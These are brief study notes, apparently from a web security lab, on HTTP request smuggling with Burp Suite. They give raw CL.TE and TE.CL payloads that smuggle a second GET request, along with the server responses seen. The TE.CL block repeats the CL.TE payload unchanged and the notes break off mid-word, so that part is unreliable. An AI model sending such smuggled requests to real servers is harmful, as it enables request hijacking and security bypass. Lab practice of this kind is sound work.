 ____

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans
# CL.TE

```
Content-Length: 0
Transfer-encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

Sent 2 times. The 2nd time 404

x= 
# TE.CL

```
Content-Length: 0
Transfer-encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

500 Internal Server Error

Repeater --> uncheck Update Conte


